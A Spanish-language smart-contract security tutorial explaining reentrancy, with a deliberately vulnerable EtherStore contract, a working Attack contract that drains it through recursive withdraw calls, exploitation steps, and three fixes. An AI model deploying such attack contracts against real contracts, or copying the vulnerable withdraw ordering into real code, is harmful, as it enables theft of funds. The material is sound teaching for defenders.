**El depósito y retiro de ETH en un contrato** por parte de un usuario **puede exponer vulnerabilidades** si los mismos no se realizan de la forma correcta.

## Reentrada de transacciones
Uno de los problemas de seguridad más comunes es el denominado **Reetrancy** que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado
Utilizaremos de ejemplo un contrato inteligente que permite depositar y retirar ETH. Cada dirección solo puede retirar sus propios fondos, pero la vulnerabilidad permitirá que un atacante se quede con todos los fondos.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/re-entrancy/).

### Contratos involucrados
Comencemos con el contrato principal que contiene la lógica de negocios para el depósito y retiro de Ether.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
    mapping(address => uint) public balances;

    // Deposito de ETH
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Retiro de ETH
    function withdraw() public {
        uint monto = balances[msg.sender];
        require(monto > 0);

        (bool sent, ) = msg.sender.call{value: monto}("");
        require(sent, "El envio de ETH ha fallado.");  
        balances[msg.sender] = 0;
    }

    // Funciona auxiliar para visualizar el balance total del contrato
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Por otro lado, el contrato atacante. Presta atención a la función `receive()` que es la vía por la cual se genera la recursividad y permite el robo de todos los fondos.

```js
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        // Creamos la instancia de EtherStore.
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Función receive() es llamada cuando EtherStore envia ETH a este contrato.
    receive() external payable {
        // Al retirar el primer ETH, EtherStore lo enviará a este hook que vuelve a llamar a withdraw de forma recursiva
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    // El ataque consiste en depositar 1 ETH e inmediatamente retirarlo
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Funciona auxiliar para visualizar el balance total del contrato.
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Procedimiento para vulnerar el contrato
* 1. Desplegar el contrato `EtherStore`.
* 2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
* 3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `EtherStore`.
* 4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recibirá los 3 ETH.

> **CONSEJO:** Te animo a que tu mismo despliegues los contratos en entornos como [Remix](https://remix.ethereum.org/) para que explores la vulnerabilidad y veas que, efectivamente, el contrato atacante se queda con todos los fondos.

### ¿Qué sucedió aquí?
`Attack` llamó a `EtherStore.withdraw` múltiples veces antes de que `EtherStore.withdraw` finalice su ejecución. 

**Así es el orden de llamados de las funciones:**
- `Attack.attack`
- `EtherStore.deposit`
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)

### ¿Por qué sucedió?
Al realizarse las llamadas de forma recursiva, **el balance de la cuenta del atacante nunca llega a 0** y, por lo tanto, permite seguir haciendo retiros. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");  
    balances[msg.sender] = 0;
}
```

### ¿Cómo se puede evitar?
Hay al menos tres medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    
    balances[msg.sender] = 0;   // Seteo del balance antes del 'msg.sender.call'

    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");  
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.

```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

3. Otra forma de solucionar esta vulnerabilidad es con **un modificador que valide que la función no se esté llamando de forma recursiva**. Afortunadamente, [OpenZeppelin ya tiene un contrato auditado y seguro](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) para solventar este problema.

```js
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStore is ReentrancyGuard {
    // ...

    function withdraw() public nonReentrant {
        // ...
    }
}
```

## Conclusión
Has visto hasta aquí la exigencia de desarrollar un contrato inteligente que administre correctamente fondos. Un simple cambio de orden en la lógica de un contrato puede causar perdidas millonarias. Claro que ya las ha causado y, por este motivo, **Reentrancy** es una vulnerabilidad bien conocida que debes prevenir estudiando su funcionamiento y escribiendo código de forma segura.

---
**Contribución creada por:** *Kevin Fiorentino* **en colaboración con** *Platzi*.

